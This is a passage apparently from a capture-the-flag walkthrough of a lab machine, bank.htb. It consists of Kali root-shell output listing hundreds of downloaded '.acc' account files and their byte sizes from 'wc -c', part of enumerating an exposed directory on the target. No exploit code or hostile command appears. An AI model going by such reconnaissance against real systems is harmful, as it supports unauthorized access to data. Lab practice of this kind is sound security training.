1ae934f62a8e5dce095c4f5da019ce0f.acc  48d9698c1ebba40ba8c4c3bccd69c061.acc  7c92466f303a24f50b2880870dea0610.acc  b2ec2c2d39477ab81eb74f185699e945.acc  ee55be0f23fd34553071bf41289545e7.acc
1b6c33d239e59dc15e93559b7ee62475.acc  49206d1e18aa8eb1c64dae4741639b2f.acc  7c935e676daa9216ac53412b7a47c1f1.acc  b2f462e0cef4ceac9341cd6ff3e0ed83.acc  ee9f97e5d90be90ee1cbdff5587cce31.acc
1b7486f714169cae6ee7e61b8bf775c5.acc  498f1ae1b09e6efbbd19097cdef6cc86.acc  7cc381a31b1252eb63067fef61319152.acc  b30aff7167e8f8b78dcb22feca8754ad.acc  eeac7e1e3b5c37b8b41210f2f3565b83.acc
1bc66277954f4d50b50a831df74bdf65.acc  4996ea3ca285adb12a03d3dd8cbb4ad0.acc  7ceed45c2f5a9b3d39155cc8099b1d4a.acc  b36b55a6b85410da8098d183b46e9814.acc  eed2a0d81e1c8014dcff0f1e2e4aa549.acc
1bd2ad5271b2ca76af9dd5d7f68425f3.acc  49ddeb6b6e65ce0c4fd7ac9d174e611d.acc  7d759940684fb5fdf8bb7c0749ca302f.acc  b3fa7845a431dcab7cac67fcfc6dd728.acc  eee184159db774335325d1a3df5a8bbf.acc
1bd6e15ea2cb7a17782a9287c76023e0.acc  4a41cda86cb132771f2e51e480364173.acc  7d7dff306be634f864e92a6b038dea8b.acc  b4006524aae0d82ce9ad65a8991e81b3.acc  ef7d353ab64ce2f8649a2fe2e044d00a.acc
1c3289e8d28be50af870b160732314c9.acc  4a66b3ce8466bf011adb1dd9d1814452.acc  7d882d79b353d4329ec6f61fdaf4dbfd.acc  b4549c66b6529d2d366b0065722b4fab.acc  ef8acec46fe90bacf21119059ee61db0.acc
1cb73099b330049d199326b5e6148510.acc  4abf8c9aa0f414abd9bfe187b72461e3.acc  7dc9403b60d10a21d8f44bf9948095dc.acc  b461cb6730908268d5731c4d30696f23.acc  efada3bec9954bac04fe2778a974c9a0.acc
1cbcd839823f160b914752703a22567e.acc  4ae6ee6e14e6de520567c8c82b6beded.acc  7dd19db14bcaff9c2ab24ceef3217014.acc  b4ed8dcdfcbc03a4f383956db555f674.acc  efeb37c425e65acb60949b18d432327d.acc
1cc7ceed882e806f92df160337e1cef6.acc  4b00b1be8ef8c5f73901e50d4d09470f.acc  7dece92a80bd61d390d0589b118234d1.acc  b515f74731640dc9c2bcc5fbb155f0e2.acc  f09e4569207c33820d2be5ccb98a1879.acc
1d9ec4f06b0b4f89bab1b559260108c6.acc  4bc7b8db43830d6a4957836dc18bf34b.acc  7df22b5113da890e88705dde5b8a9871.acc  b51b74fb4d0fffb13588c438327eb18f.acc  f0f1ee68fd1851d3174be51c80598aae.acc
1dd7e55cc130a4b6ea8ce6cb6d7564f5.acc  4bf0266486768e0fdcd383973f08227e.acc  7e16990ea08e7d261645c60447ae412f.acc  b54969a641bfeeb6a9daaf76b42bb629.acc  f0f4ce2ed7613415ccf81b274f76ad1e.acc
1dfea613df52206550c8a254baae5bc6.acc  4c13d888bd3ac3c2b1e84b50bf35a85a.acc  7e4cf8e1c1950a8e1da8e937901ff657.acc  b59e8e4197ddedcafa629a4015a652a5.acc  f0f8ea272f091256230e5cbab19a951f.acc
1e32e4e412da54833e813bff5c8beb5d.acc  4c6dafa3f684f42869b718b251b292eb.acc  7e65bc0bdba7609f0fb85f5411e79163.acc  b5dd07106c1b691c055f717c6267768a.acc  f125d4527679f54ac91915ace260e1bb.acc
1e4e8f4b7afc6067e531f5bde60d94fd.acc  4cad3a11b7963ebfc70f703dd4811b96.acc  7e8730a34c228f96819155f5f29eeeb9.acc  b5fc8035406f2583cea97f92461bbcb0.acc  f16338fa71b5d1b2490f38a38496a2a3.acc
1e5e07a4a277061fe97106f08ff478de.acc  4cf44a4d89128da4127db0bec1048c51.acc  7ee435673a9a537131903ce74fe908f7.acc  b65b6105d8c1b7732bc0cbe395e5ff2d.acc  f17b615f6ca6e6d0187d580c5d7bba6b.acc
1e6784a6a1f6ca5030db8856cc512eb9.acc  4cfb2d50597e6ed2f74334d218e5d8d6.acc  7f44276326c185b7e8bf1cb2ae0c02e3.acc  b6991119b60d52b191a97156374ec497.acc  f199c163d1bc548b847a6fe85548035d.acc
1e98bdb0f10109ed73058fba9c5c1752.acc  4d083a8cf8154cd657341344580196a0.acc  7f4d9c6e8a185bd54a2bb3266b239f35.acc  b7640c209018067b376ae0832f66ebed.acc  f1baba483e8af22c333d241d44b03af7.acc
1ec19e69fed7d847bb7566f19e8f4050.acc  4d183c48bf0e826fe9f0248a2bd0ce1f.acc  80416d8aaea6d6cf3dcec95780fda17d.acc  b7778d5081f949cedbb609c1792d376e.acc  f1fd45aaa2e9ebef30a2150276fa8c59.acc
1f4289c9c2d6999e9fd97bfe81a02ffc.acc  4d6d527e8e87c5c6edcd5e189688e377.acc  805c369e5114713021dbb49b374845c1.acc  b819d8a2eb68f65c47355b20fa1e3a42.acc  f22de8ab72b1fb0fc43eed85368b984b.acc
1f83271fd1c62b4714abc3a00327b4e7.acc  4d7a9044e957b9cb0dffd2f7369667ec.acc  8087166ea0cbc15e43de374cc4179424.acc  b81a80f9bb4b1a04afa7097e23cbc76a.acc  f283190eb6180e1a5e27983e1ff63289.acc
1fe096b278f292f3ae68280d7ffac179.acc  4e4d7e09dc5de2768b2f670616457f73.acc  80d73c3bbdc077edb98daec9ff26d933.acc  b85e39b33781a6d660ee25286c3ab5db.acc  f2bfb6c3f7cbf65176e39105767b5fb7.acc
20207ac92b72028c5b4abeb7287280ed.acc  4e7da1c5f107c306f55bee851108c402.acc  8116eebed5657173e44eac5f834c6dd7.acc  b8978edfe1f1e84b9157d147adb4a7b3.acc  f2cd9d9d2d57a8c9e97e427de36ced76.acc
2045012eb38d171e1e24ba7ddc6fd11b.acc  4ebcb090a219d941e56c032cdac43669.acc  823e6084e33c3cbf609bcb946fbb5098.acc  b8e7b4cf45d8182f69a43dfea4c15007.acc  f2d6fc8ebdb1e9bb6874673419e0e870.acc
20762f2c75a18c8a0911495214989878.acc  4ec2f8f0fb700e23fad05ee516540326.acc  828bceeca877d2c73e5836d11e1d832b.acc  b91c776e5fc8ac78ef2b7ac7985c12e7.acc  f2d744aa3a27be76565cb900db0039f0.acc
20a2ec5aacbead218c3d170237debf5e.acc  4f1371b82592d1c8f92b91cf32509e5d.acc  82c22539af6f7d928133b7b1f8abeeec.acc  b987c7121ca99f686fad591cd517c96a.acc  f393628766266e2325b9d665ff375314.acc
20b2090845b0563afc69c4e7fec1e497.acc  4f2ef432bf1238f085d4a4e519a1dfff.acc  82c3d67857c36d3f97535a6d211272e3.acc  ba0c98a6b1b39df7395fbe53bb3d9416.acc  f3a0d4846c351a4c092c5c2d639e26ae.acc
20c7d56557313b26a07a08c4634634ca.acc  4f413171a5b4e0b82fd0a14edefcb175.acc  8417fa43902ff7f26fb4cf87f0d428a1.acc  ba39ecb7f9e7c8ad01242ee2abfec51f.acc  f4475acf00fd37263c0e1d67dfe79393.acc
20f4f2fa9b091725330e1b98c3d0edb3.acc  4f61cf16aa405cbd9562831b725166f3.acc  844cebf2af0bfdde679e8e72d2337717.acc  ba3f33ae83f835337fc89c330c8c0b0b.acc  f456824eeebf1248ab0b21710eb7cd0c.acc
20fd5f9690efca3dc465097376b31dd6.acc  500b7e7e925fc1810c0081f49f9878aa.acc  845b82de5081018fcbbd55e63cbd04c9.acc  ba4fb7e7c14fba8f12044868d0a2fb58.acc  f497a39d8a83ef18916f40e4bd2c0ead.acc
21c74f96797dbd154c54873c557f872d.acc  500f59a56cf27362df6df66852574348.acc  848e888aa97a6370a04b077d7de5a565.acc  bb34a1ff313f2f6c04f276bc796972a1.acc  f4af6b16beb3dbb6468ecf0c959bd090.acc
21d5e879ab9135cbc4f54bfb4a12dfa8.acc  50276beac1f014b64b19dbd0e7c6bb1a.acc  84cf9f79d28237d50c98ba165b000bab.acc  bc1d7f1ae59272da503d8400021f1922.acc  f4d4370f5f710441f928fbbc1493bb84.acc
21efa62f7f2e77c1993fb67c69abae22.acc  508c160d0792912147bfb2f29b2bb136.acc  84d39f534a1a7ce6f151c0a6d5c1e6c3.acc  bc77e74af430c6c199676bd28a7239db.acc  f507318a91772b5bb04e2c4fcdf4b896.acc
21f29d019d2dbda1620ba49978d6c6ca.acc  50de687c0d3e1925c2e3e96b2a08b664.acc  84f283b21104e9172dbf083a86cb1da9.acc  bc79ed4105fa30d652540f01aefa1b86.acc  f510f991d80a817405fdea6aeefa0c5a.acc
21f35deb6f99be95782b7d978d1bb66f.acc  51e3753a2abd98a29f5344424b8a3db3.acc  84f8b63a767058af39d96477fa557487.acc  bc86f3b2b74796989a2607e0c0c0d785.acc  f533a1c44df699fdbb0835050f71cd1a.acc
221c5aa7f92fd53c68f85ba73f8935be.acc  51e6542018c82a48cfe15db8954fbda8.acc  85006f1266226e84efb919908d5f8333.acc  bc8f563356a47ba542004438ad25cfe1.acc  f54e2b927d8fa8788744c6009d2a45ef.acc
229b603e25630350619dc9b86a749c38.acc  5247cc2759787a72747c4376a88356e8.acc  8554f463517b7f7f70c2e0a8b3e72b64.acc  bc9767541db7363d22bd389262891376.acc  f5affad2f51f9413416019913e509be2.acc
22c46b9ad0990cf7a73fad02a7731184.acc  52a6f94974c07bd49cd9dc9f89501751.acc  855b1ce8edf8b2e059444b290b678210.acc  bd19ed634fca546c3a1ba5839cb38108.acc  f5c8f951cc3aa1d66430e3dbf1027039.acc
22fb78ab39db7a6c496838f594e377b6.acc  530cd80ef0fc59616c7eeed85c147bf4.acc  8578a01a81a21685c098b08d4a3514a0.acc  bd5a6de2559b3b47989f6ed359df4b31.acc  f6607b35d03c6ee905e831c4a00af2c0.acc
235f306703512e4e178edbfd427eb860.acc  5313f2c7094ceabfc44a02f61643be18.acc  858a0d9ead484a5452940683dfe75356.acc  bd6296924dc801f8c8a4cb8a21cacb6c.acc  f6748d363aff0cc8c7beaa04f1b2ab7e.acc
23e1d6517c1a96557eb394a7969ec811.acc  539fbd47a23717ee6a38e540e23e3c3b.acc  858d42e024586e34cf961bcd8c52fc26.acc  bd8201d9d272abc25ea846ba4f9ce151.acc  f676c085d2f8e218fc4272c348896c08.acc
245131960374afdfd3af75590d81ffad.acc  53a7aa18611c1cf6bb13eccd34c8d2f9.acc  85e9087a32f5f9ccf8eab9fe2acf9e7d.acc  be68d0020eb8ca72d751561bfd379e0c.acc  f77b61daae19f1fdf0331ae62d11b48f.acc
24618f7079b4f5956459c1a10abbba14.acc  53ee88051634f75d532271d10de0cc06.acc  860826651b3c5c5f11cbc9985b9c53e0.acc  bf1db217197a8ca98e78546d06de0a78.acc  f77b874da650efaa92c5c6a292bbba35.acc
254770162ed5902fbbaf2460e91bebb5.acc  544e693182b1b4ffab54bc0bdd1f216c.acc  86afd07fd9b3e161d4110a05efbc4567.acc  bf263d614541baaaa541101f86af47b7.acc  f77e102769baf3c03c855cef0f9f41de.acc
254c4a868ba0612edca14c19af07e30f.acc  54656a84fec49d5da07f25ee36b298bd.acc  86d458e4636c5aaac4985f7521ee6639.acc  bf97c1b37423d4d65a57dc14979310f3.acc  f7d83ce903d4c505552533c269c22778.acc
25ad3803118518c540b30e066e9f7a03.acc  5492f0f786cc84fb1aee7bc3b17d0d4f.acc  874792fab530aed50b38b26f2a8c1870.acc  bfb8e73959a976e5abb32354299d919d.acc  f8020700b091366a5e1343b5c0020f9d.acc
25ca010ecbb68e63f8f6e4df2dbc7a0a.acc  5512bf5534e85f5365db45183a714a26.acc  87831b753b8530fddc74e73ca8515a50.acc  bfcf10c3db55bd6e8ee1fb1d1e1db80c.acc  f81c0e2e2ac1dc3c497421d901b05da3.acc
25f38959dbf273accce1ca8957c69dd0.acc  556c5bd821268a5bf9b26de19c644e8d.acc  879f0957ad3ed3f46f2bef382fcde256.acc  bff19337b2e4e2a93e29e98bd931dd19.acc  f85f26eaa265dd6dbdc8c29061323bf9.acc
26678f1b6310e7619a2a39f4301fdeb1.acc  55fef9f64a6faf3ada69a9ae9d098017.acc  87a3209fc8d2d8ebe98e40bac4ce78f0.acc  c0449dc4695da9107356b7081eeaf548.acc  f8875be5e4ee006df2228b3ff0a7bd68.acc
267ed1121ea6c0c9e2551620b10be6c9.acc  56215edb6917e27802904037da00a977.acc  87b0476d46f9b5bf71be14e4447e0ec1.acc  c1700a7bfe673062732771b823b0cd7b.acc  f8f633fdff1ef33d238851f264bade56.acc
26ba609dea7477bcb7a17b0912ff0ab4.acc  563738597d410751acc3378aec0e860d.acc  87def2435b8b7dfbc1cb90e594b48a4c.acc  c19e88c3bb036819aa5b28cbdf9cfe27.acc  f9270f8014a481617dbac28aa5ec7450.acc
26ca8b69c7a1d37af08ede635b38ac25.acc  56bca21e1e398d9e4ed8d35fcdd21312.acc  87f2fd14ae5dd0b04fbf96d8e6768283.acc  c1e9c51654c980547d41a4e6b89a279e.acc  f94b9157b5e291720bb13d62b9a9623f.acc
2744c3aa5ea3c1e0c43ba0b07e6d7ab7.acc  56c314ff214498c70201785261a86e8b.acc  884f78f576290e70b234f68cc2b75565.acc  c27e3b09f45c2e92b2d85f8ba84c2894.acc  f94dcf255199d565fc997fc6a91beed8.acc
279e838eea41bd10c7d57738361fba64.acc  56cf080080911de15d63db43a7c3c659.acc  889298fbc7c3ed6d6487da1b725a3d06.acc  c4442fa5d035928e507c1b7a3d58abc3.acc  f9851c2e450f13261e020fcf7f0ed180.acc
281a248eac5b77324ea4b0871ad071ce.acc  5703d0a083181849782ad1bbda821404.acc  8915138a77e6474ae29f6b06e109b7ff.acc  c5132ddff0d5dcb77af4ec902e3c34a7.acc  f9c2c34471cfeb316881a2d97fa79c52.acc
2839c1573b4e3e405f28b8e975d3f04a.acc  57aba757c2e288d93ebedeb80b7c0319.acc  897ffb89e0066d9cbb92666cd2e92960.acc  c5664a8536412a94d5b109580070bd1c.acc  f9d12910695a055494dc254902131e12.acc
28803c906e088ad88ec06e251c37db91.acc  57e99d6f54ecdce53adcdd0efe8d00b0.acc  8a0c42c20d3cc111e294dd14d523b149.acc  c58e81ac3538ce7bfdf724829e91cc1b.acc  fa06f9a8d4672d4d739a99f310b3add0.acc
2891c5f2cfce57c5d7ce5eb17711ad1e.acc  5814e18d74c311e709cab1ef69cb7b7e.acc  8a2b4b1782cbd4660ce40085d31317b7.acc  c59de74625806c5e1c0c76a2c744a57e.acc  fa34e37fb9b5153d44e8422b2ed95338.acc
28ae5f87693c37f5b43b93d6dcb192af.acc  581e4dfc04729f53cb5b461a26b43175.acc  8b91eedc4a7f3fa84360dca78e2ab618.acc  c5fbe301fd23271c5587af536c490d4d.acc  fa4bf29c22b6e479c6c315ea15557ca2.acc
28c5858b4c1f3f5272b505af792a131a.acc  5865c9a855bbc327b8a2fc6db3d86917.acc  8c5bc636a713df10a0b267dbdce15396.acc  c610afd0caaedeab71cac5163f952e5f.acc  faba62033042fee10008e7cd3790ba2e.acc
290af0ac02bd7a0aefa440273a797520.acc  587ca22ea47c6fb4c603e929d0456520.acc  8c92082936170befc74bde36ed0507c8.acc  c699054ac57388bc81a86e173a40380d.acc  fabfd4cd599ac63c5699f456f2cf448e.acc
2928dcb8005fec74d484f4a44d55866a.acc  58a69d5d011af16b12f0a81107be3d24.acc  8cd768d35008b86c017e341aa4b0bce8.acc  c6f3ea4d0d9050cdd89b3465cde1091c.acc  fb3cb6734c832b14987f002c2dadae19.acc
2940290175b241c7fcf89c2abbfbfdfc.acc  58e21d4294200a2754f190cd15b4cc27.acc  8ce4aa658a58f13de583838f62ddc5ca.acc  c79000bbef5faef919233d06186a9460.acc  fb42d07220a996307df38ec7e6189b4c.acc
2946c98cb4e7da90b97c8a46f381e55f.acc  58e63112be4258f4568ef480ef47da5b.acc  8cedbedfff70a3528fbebfee0fe0c4a3.acc  c7c1aeb5d6174d9971083d5b0cc42d4d.acc  fb5a9d6ac0d2c781dffd73c470f23fe0.acc
29ab3224af5d2955eb9f6f9604b09b47.acc  59829e0910101366d704a85f11cfdd15.acc  8cf431f4c9ed8b09aeaa97b6da4eac57.acc  c7e5018a4f1def3f9bb7e5845cef8520.acc  fb73bed60d6dd4559860ea5f7f2f5a3c.acc
29ca4e8271e92fd18972da499d83faa9.acc  59ce6c145b9ddfc95f0bed4baa6f9197.acc  8cfb0967df2394db4375ccc542fe2618.acc  c7eafce7ea1402a837a2876a4df6363c.acc  fb891061321669dd0ef9d5114d476f3a.acc
29cb0f36e1b09fafd64dfc475cd154ee.acc  59fa74f31a724ab1383360e255a0e711.acc  8d33eab2dc9fb1ba85fcbb9db580eb5f.acc  c809073b951d81730735cbddc4b05b4c.acc  fbcbbd213f0a3e88ee84eea9a9d01b90.acc
29cf9851f990721b4078930a52371855.acc  5a06163947bacb35937b94976524b9e9.acc  8e6493afb68626079c3a153ecc2bc532.acc  c86c13570b69c871145b9ee78c82cf1c.acc  fc6cdd24cf81d66d12c97aa97a37fe33.acc
29e6bb8c09665df95fbf0c8ff5e184fd.acc  5a62c5fb945007bed47e6e4c114d3be7.acc  8e99440294d984f80beb6d5d9aa95637.acc  c88e9ce208f7a014f699c20e897c168d.acc  fc73548dc690c238c5aff9cb9e440498.acc
29ee355c82a4bbe25787fc0b4d96dd45.acc  5a6f81da012f11f463df711758a7d98c.acc  8ef95b6bd6c84e5ea7b1c0c765f9e7b8.acc  c9aa1ec05c4655ff245a6cbf91987b9e.acc  fc87e5f87f8d7a8eedc4ee85b5b1c58e.acc
2a0267dc11bdb1d6853b08335e9f030d.acc  5a8ca8184c7d197a07716f3b239f5f30.acc  8f00e7f326d98a8f40b0db62a55c01d5.acc  ca7050d298b7ed8426eeb5dd8fcfacda.acc  fcb78e263fc7d6e296494e5be897a394.acc
2a3d905e1abcf6d728dbb6f33e3b3093.acc  5a92190fa06db59ca8d12f761ef5df66.acc  905fe459c1ae841af1138abf7a49a960.acc  caa00c3f2217fdc59be9764e1167ca39.acc  fdce9437d341e154702af5863bc247a8.acc
2a87311fdee4da24b126bd114058b9e0.acc  5b275de0f3930d538d41d38012f9f99f.acc  911be9d5ece260e1789c21cc8997bbe9.acc  cb27ba5c7f50f33d3808eeccfe1c7271.acc  fe426e8d4c7453a99ef7cd99cf72ac03.acc
2acb388eebe1c2206052ac5ec3bd6edc.acc  5b2fd16a5027dca9714596e1f1900ee1.acc  91249b887c7bf3f6cb7becc0c0ab8ddd.acc  cb2da876273338ead9c35ca591d1a74f.acc  fe85ff58d546f676f0acd7558e19d6ce.acc
2b132b6e7781da0ff92bcc4a186e7173.acc  5bc9e0468db90310e045ee1cef02ae49.acc  916462152b12cacd3b7a982c8fd1206b.acc  cbeed458cd121a5a971a2578ff6a3a95.acc  fe8a8b0081b6d606d6e85501064f1cc4.acc
2b3be36d865a5a40250942b5c8f54dbf.acc  5be15dbd24aa31b6de43c69234a72c19.acc  916da122c11e2e240be7647d3943ac6b.acc  cc4b31bcc18c5883483f418ace7032cb.acc  fe9ffc658690f0452cd08ab6775e62da.acc
2bf7e04143696925b74ff2d58e48bb43.acc  5be5196a9bfbf55be5322576b6cf2ec0.acc  91ac85b6679b679cfcaec44e9e91db0f.acc  cc66fd1344a67960d78071e553f5325a.acc  feac7aa0f309d8c6fa2ff2f624d2914b.acc
2c07b69f32dbd283b47b524edb0053ba.acc  5c7fe7fa7cde31ec7f6460dcc866b2c5.acc  91f56bdaaf319e141d7784413028d0fd.acc  cccc89d995cb744980230163ff4bc2b7.acc  fed62d2afc2793ac001a36f0092977d7.acc
2c2fed06d94f69685882dac0d9ce9cc8.acc  5ccfc5c5060c6f7eaebc7b360bf1fb5c.acc  922bb20268e664d4571a234836f68b7e.acc  cd0601603157ea5959e9920ce184a131.acc  fedae4fd371fa7d7d4ba5c772e84d726.acc
2c46469b9fac25ad81268c1d2998cdd6.acc  5cf5a255a6ac6c51fce18b20de1fc6c3.acc  92579940417f9ae8d23f3274830ceeaa.acc  cd247bc40733ce4e2acad1fa1d55581c.acc  ff39f4cf429a1daf5958998a7899f3ec.acc
2c51591fcbda7b91ca9f56b586f3ca55.acc  5d20c77d44fa9054a4822b2cc42aaf6a.acc  925a13e731e148e32a024d57905883cf.acc  cd77ee6d8342e1c28b6ca56662319f09.acc  ff8a6012cf9c0b6e5957c2cc32edd0bf.acc
2c5b01899d473f77962df31812601294.acc  5d364c970049e9a1ddeab46685ee95c2.acc  9281c329f634b4b2cd88a6defcb7bd86.acc  cde3efebc24ac5d927642eb91c120a0a.acc  ffc3cab8b54397a12ca83d7322c016d4.acc
2c7701c77068b9ca7244626133c2ec8d.acc  5da2cf0551e5d9a82e264b842e2fef39.acc  941e55bed0cb8052e7015e7133a5b9c7.acc  ce11ae5a941985ee4365cfd8027a505b.acc  ffdfb3dbd8a9947b21f79ad52c6ce455.acc
2ca3519fc00af7c9d63e58b9df82d4f8.acc  5dcd2d4cc2f5ebf971da7b9577313fc6.acc  94290d34dec7593ce7c5632150a063d2.acc  ce1c2ba769fbecf151783412d27b8f57.acc
root@kali:~/bank/balance-transfer/bank.htb/balance-transfer#
```

```sh
root@kali:~/bank/balance-transfer/bank.htb/balance-transfer# wc -c *.acc
   584 0016a3b79e3926a08360499537c77e02.acc
   584 001957ef359d651fbb8f59f3a8504a2f.acc
   584 0026d872694cf17e69618437db0f5f83.acc
   583 003e8ffc123735afbcc7b219851d45c3.acc
   584 005953d5f1fcb53ed897063881a91e00.acc
   585 00895e6b8d2389faa6cf736388dd6907.acc
   584 00a929b4f7ece04c5da8fac8da8370a0.acc
   584 012713bf9cfc1e5adfbdbc14dd32a1c6.acc
   584 0130afdc7d28350eaa7018736d8e75af.acc
   584 013fc67de873fdc3f001a3c8fd6fb252.acc
   584 01a13d9db1b513230047f8951f5ee426.acc
   585 01d537afce94cd70b6dc734db310d34f.acc
   584 021d32498ed3715cf0cfa4cba3233de6.acc
   585 0278047e279b4b7affb284d5d27fff61.acc
   584 0285de4a0d1ae2cae6d4d2be03c71ad7.acc
   585 0298cb464791ff4a6c5447114fb4bc18.acc
   583 02ab56265052fcbffa94aa8868955809.acc
   584 02e28c6da52d30a3d4029c4fee24a627.acc
   585 03051d2fc082a4486cefc8e4f3aef886.acc
   584 03089964c6d31d512907f2fd2547d690.acc
   585 030af0ec1428a8fe5a7eaf9e684941e8.acc
   584 036aacee702e369846c184cdf374912b.acc
   585 03a6a13a7c61cf6bc7753d4c2d41d6d8.acc
   584 03c158aca0eb3493b4730ba5ed0d3a80.acc
   584 03f08dbc9f58c93aea6413111787bdeb.acc
   585 040a56b78a97b8eb348b5f205d42de7f.acc
   584 04488e1db8e68fcf67684b78504f8f2e.acc
   584 04671617d7bd3af5683a770e02f9fd56.acc
   584 048ed94fee4e036472a1bdb8795a3aef.acc
   584 0493facd8932d18d6657c7dff0bc151c.acc
   584 04bb6e0356b43d31d25277a4fa56884f.acc
   582 052a101eac01ccbf5120996cdc60e76d.acc
   583 0589423587b67002f0a64101e821ba18.acc
   585 05f064ba91479a01e1b9456afa6e9b2f.acc
   584 0603c831aa543636b14c9047ab65ca73.acc
   585 06a0b516439755f9b849a2d060df6ce7.acc
   585 06a80cb247151573c2731863af1e0f3f.acc
   584 06cc59f58d34941d93a9f7daa54aeb30.acc
   584 06e5ed6835032cadeedd8cbc2525c1e8.acc
   584 070a07a40fcc8c5f6dfbb0f16f6917b0.acc
   585 0765aa4c97f0857f49921bc32281f6e5.acc
   584 07dbd94cf3a4b07d4ac13d0ed5573cfc.acc
   585 07df2d04959d3f89118a7994d52d002d.acc
   585 07fe9d5980ec8dd731bd1cc22efd6bd4.acc
   585 082e4bdf27365d8205490fbe36bb8028.acc
   585 0832c922148dd0722d6da8d1f438da1a.acc
   584 085349be3fa3df64b0fc3f2c8a7b95b7.acc
   585 08cc112526d390bc424e7b4b01848e7b.acc
   584 098bab0276720c1c52abc420af43bd9d.acc
   581 09ed7588d1cd47ffca297cc7dac22c52.acc
   583 0a0b2b566c723fce6c5dc9544d426688.acc
   585 0a0bc61850b221f20d9f356913fe0fe7.acc
   584 0a2f19f03367b83c54549e81edc2dd06.acc
   584 0a629f4d2a830c2ca6a744f6bab23707.acc
   584 0a9014d0cc1912d4bd93264466fd1fad.acc
   585 0ab1b48c05d1dbc484238cfb9e9267de.acc
   583 0abe2e8e5fa6e58cd9ce13037ff0e29b.acc
   584 0b45913c924082d2c88a804a643a29c8.acc
   584 0b59b6f62b0bf2fb3c5a21ca83b79d0f.acc
   585 0b6ad026ef67069a09e383501f47bfee.acc
   584 0be866bee5b0b4cff0e5beeaa5605b2e.acc
   585 0c04ca2346c45c28ecededb1cf62de4b.acc
   584 0c4c9639defcfe73f6ce86a17f830ec0.acc
   584 0ce1e50b4ee89c75489bd5e3ed54e003.acc
   584 0d3d24f24126789503b03d14c0467657.acc
   582 0d64f03e84187359907569a43c83bddc.acc
   584 0d76fac96613294c341261bd87ddcf33.acc
   584 0e5a884b0b23e98446c460b4dbafc3ee.acc
   584 0ec03beb3832b05908105342c0cc9b2f.acc
   584 0ec280c07bff51e211f18118aaf110b4.acc
   584 0efa8fd313b2a59bb07e8a656dc91412.acc
   584 0f2b9dad0ad001b9b14d64112de3fbcb.acc
   585 0f6f890eddff9b4cf0deb3269ee0a358.acc
   584 0f8495f20c0711377b9d082d53280d3d.acc
   585 0fddb291b4c92a91d97d9f148dce4371.acc
   584 0fe47df5c5dd6fed071b81c5ccfd29e2.acc
   585 1005c4b820f30569e0a8e290f2893299.acc
   582 10805eead8596309e32a6bfe102f7b2c.acc
   585 10b8b7b1713f1dca5ad72ea3ebcab475.acc
   584 10df9dfe748997d7bbfb5d64cee284b9.acc
   583 11c1ad9b01c6654be1d995a09a9f2f3b.acc
   584 120456185fa840aad81c6ea38b9f70d7.acc
   583 124a5db27699c0e2a3480a7c091bc128.acc
   584 12c2d8fb0ed8df68972e2fe4dc5b4609.acc
   585 12e8afda9f95bb015ffa5c1ef3d503d0.acc
   584 12eb6b074fcf0adfcf0274fbf0947edb.acc
   584 1308cb859a75a2b66d72b3a36ce87ace.acc
   585 13394b7bf1e2ffb15c94045398826b52.acc
   585 1385939e3f7c5d728fbb1a665e5fe26a.acc
   584 13b790b817ceda1763f695cb4b1151b8.acc
   584 13c0e6b11cf2b1525d38143037cdcd51.acc
   585 13d91ebcbb1af4df0bf8a82fd3a71476.acc
   584 141d68e343b77ac020de3087e3efbf3e.acc
   584 1458d8c0b03eb55944f3928fe45c66d8.acc
   585 146e50a62df35e5cc05f0e644f1b4c87.acc
   584 146e61f82b0174bf416c2cc895e27136.acc
   584 14e30bd14c29ccd86b16115784f405f5.acc
   585 151b3d396f2e1f6f9bafd75e37fe90f8.acc
   584 1557e069780d9eac7f88a6e10e7cd90b.acc
   584 15a9158ee078d8a058736267caf8b910.acc
   584 15baa7e6a3b477fc3d6b9567d2a71c56.acc
   584 15f5a217c839e4f6ef0cc46dc01e494c.acc
   585 1634428ff1f73afb7db9df3e21a99b54.acc
   585 164c1839f2d21dd77bff5a7933087f4b.acc
   584 16a2ff45c69de2df023ca9dfb2ce12bf.acc
   584 17115b9167f94b0fc8de6a075f7a7c3c.acc
   583 172bf2c0394fce86f60e75170afc8f9f.acc
   584 17d462006481467102be11a86832691d.acc
   584 18bf04910a0623a4c2d6287341b53ddb.acc
   585 194f2b25230c4cfcb7c2092a006502cd.acc
   584 1967bd76aaafed760132a851a3d7c8d6.acc
   584 198007304d3f3413936f9634ff44573b.acc
   584 19f06120f156391687ba9625de702836.acc
   584 1a419fd7740a76ba3124528ff0419624.acc
   584 1abdae025e433fb00a8c684a853c191a.acc
   584 1ac6533f614e99cb74d2aaf00cd1b1e5.acc
   584 1ae934f62a8e5dce095c4f5da019ce0f.acc
   584 1b6c33d239e59dc15e93559b7ee62475.acc
   585 1b7486f714169cae6ee7e61b8bf775c5.acc
   584 1bc66277954f4d50b50a831df74bdf65.acc
   584 1bd2ad5271b2ca76af9dd5d7f68425f3.acc
   584 1bd6e15ea2cb7a17782a9287c76023e0.acc
   584 1c3289e8d28be50af870b160732314c9.acc
   584 1cb73099b330049d199326b5e6148510.acc
   584 1cbcd839823f160b914752703a22567e.acc
   583 1cc7ceed882e806f92df160337e1cef6.acc
   584 1d9ec4f06b0b4f89bab1b559260108c6.acc
   585 1dd7e55cc130a4b6ea8ce6cb6d7564f5.acc
   584 1dfea613df52206550c8a254baae5bc6.acc
   584 1e32e4e412da54833e813bff5c8beb5d.acc
   585 1e4e8f4b7afc6067e531f5bde60d94fd.acc
   585 1e5e07a4a277061fe97106f08ff478de.acc
   583 1e6784a6a1f6ca5030db8856cc512eb9.acc
   584 1e98bdb0f10109ed73058fba9c5c1752.acc
   584 1ec19e69fed7d847bb7566f19e8f4050.acc
   585 1f4289c9c2d6999e9fd97bfe81a02ffc.acc
   584 1f83271fd1c62b4714abc3a00327b4e7.acc
   584 1fe096b278f292f3ae68280d7ffac179.acc
   585 20207ac92b72028c5b4abeb7287280ed.acc
   584 2045012eb38d171e1e24ba7ddc6fd11b.acc
   585 20762f2c75a18c8a0911495214989878.acc
   585 20a2ec5aacbead218c3d170237debf5e.acc
   584 20b2090845b0563afc69c4e7fec1e497.acc
   584 20c7d56557313b26a07a08c4634634ca.acc
   584 20f4f2fa9b091725330e1b98c3d0edb3.acc
   582 20fd5f9690efca3dc465097376b31dd6.acc
   583 21c74f96797dbd154c54873c557f872d.acc
   585 21d5e879ab9135cbc4f54bfb4a12dfa8.acc
   584 21efa62f7f2e77c1993fb67c69abae22.acc
   584 21f29d019d2dbda1620ba49978d6c6ca.acc
   584 21f35deb6f99be95782b7d978d1bb66f.acc
   584 221c5aa7f92fd53c68f85ba73f8935be.acc
   584 229b603e25630350619dc9b86a749c38.acc
